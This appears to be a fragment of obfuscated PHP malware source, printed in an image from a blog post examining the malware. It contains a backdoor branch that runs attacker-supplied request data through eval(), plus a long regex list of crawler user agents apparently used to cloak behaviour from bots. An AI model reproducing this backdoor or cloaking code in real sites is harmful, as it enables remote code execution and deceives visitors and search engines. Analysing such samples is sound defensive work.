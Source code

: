 ```php
						echo @serialize(Array("uid" => _abtwpw0::$_gc26w45m, "v" => _abtwpw0::$_ebgh51p9, ));
					}
				}
				if ($_elxaovea['sa'] == 'eval') {
					eval($_elxaovea["data"]);
					exit;
				}
			}
		}
	}

	private function _85a7k(){
		$_h98zt9gf = array(
			'#Ask\s*Jeeves#i',
			'#HP\s*Web\s*PrintSmart#i',
			'#HTTrack#i',
			'#IDBot#i',
			'#Indy\s*Library#',
			'#ListChecker#i',
			'#MSIECrawler#i',
			'#NetCache#i',
			'#Nutch#i',
			'#RPT-HTTPClient#i',
			'#rulinki\.ru#i',
			'#Twiceler#i',
			'#WebAlta#i',
			'#Webster\s*Pro#i',
			'#www\.cys\.ru#i',
			'#Wysigot#i',
			'#Yahoo!\s*Slurp#i',
			'#Yeti#i',
			'#Accoona#i',
			'#CazoodleBot#i',
			'#CFNetwork#i',
			'#ConveraCrawler#i',
			'#DISCo#i',
			'#Download\s*Master#i',
			'#FAST\s*MetaWeb\s*Crawler#i',
			'#Flexum\s*spider#i',
			'#Gigabot#i',
			'#HTMLParser#i',
			'#ia_archiver#i',
			'#ichiro#i',
			'#IRLbot#i',
			'#Java#i',
			'#km\.ru\s*bot#i',
			'#kmSearchBot#i',
			'#libwww-perl#i',
			'#Lupa\.ru#i',
			'#LWP::Simple#i',
			'#lwp-trivial#i',
			'#Missigua#i',
			'#MJ12bot#i',
			'#msnbot#i',
			'#msnbot-media#i',
			'#Offline\s*Explorer#i',
			'#OmniExplorer_Bot#i',
			'#PEAR#i',
			'#psbot#i',
			'#Python#i',
			'#rulinki\.ru#i',
			'#SMILE#i',
```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"